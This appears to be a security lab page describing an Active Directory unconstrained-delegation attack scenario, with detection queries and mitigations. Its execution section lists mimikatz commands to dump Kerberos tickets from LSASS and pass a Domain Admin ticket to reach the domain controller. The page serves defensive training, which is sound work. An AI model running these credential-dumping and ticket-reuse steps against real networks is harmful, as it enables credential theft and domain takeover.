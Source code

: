 # Attack Scenario: Unconstrained Delegation Abuse
Simulates exploitation of hosts or accounts with unconstrained delegation enabled in an on-prem AD environment. An attacker who compromises such a host can extract TGTs of users who authenticate to it — potentially leading to domain compromise.

## MITRE ATT&CK Techniques:
- T1550.002 – Pass-the-Ticket
- T1134.001 – Token Impersonation/Theft

## Lab Environment
- **Windows Server 2025 host:** delegate01.internal.lab
→ Trusted for delegation to any service (unconstrained)
- **Domain Controller:** dc01.internal.lab
- **Attacker-controlled host:** attacker-vm
- **Admin user:** admin.internal.lab

Preconditions:
- delegate01 has unconstrained delegation enabled.
- admin.internal.lab logs in to delegate01 during the test.

## Objectives
- Identify hosts/accounts with unconstrained delegation
- Compromise the delegated host
- Monitor for incoming TGTs in memory
- Extract Domain Admin’s TGT
- Use the TGT to impersonate the Domain Admin and access sensitive systems

## Execution
### 1. Discover Delegation Configuration
Get-DomainComputer -Unconstrained

### 2. Compromise the Host
Access delegate01 via any method (e.g., RDP, PsExec, scheduled task).

### 3. Dump TGTs from LSASS (when victim logs in)
Use mimikatz:

```sekurlsa::tickets /export```

### 4. Identify Admin Ticket
Look for ticket targeting krbtgt or from admin@INTERNAL.LAB.

### 5. Pass-the-Ticket
kerberos::ptt <admin-ticket.kirbi>

### 6. Confirm Privilege Access
Try:

```dir \\dc01.internal.lab\c$```

or use BloodHound to pivot further.

##  Detection Guidance
### Microsoft Defender for Identity:
- "Suspected use of ticket theft attack"
- "Kerberos ticket reuse detected"

### Event Logs:
- 4769: TGS Request for high-privilege users
- 4624 Type 3: Network logons into sensitive systems

### KQL Example (Microsoft Sentinel):
```
SecurityEvent
| where EventID == 4624 and LogonType == 3
| where WorkstationName =~ "delegate01"
| summarize LogonCount = count() by Account, IPAddress, bin(TimeGenerated, 1h)
| where LogonCount > 3
```

## Mitigations
- Avoid enabling unconstrained delegation
- Use Resource-Based Constrained Delegation (RBCD) instead
- Prevent Domain Admins from logging into delegated systems
- Monitor for ticket export activity (e.g., access to LSASS)

## References
- https://adsecurity.org/?p=1667
- https://github.com/gentilkiwi/mimikatz
- https://attack.mitre.org/techniques/T1550/002/

## Navigation
← [Back to Lab Index](../../README.md)
→ [Related: Resource-Based Constrained Delegation](./rbcd.md)
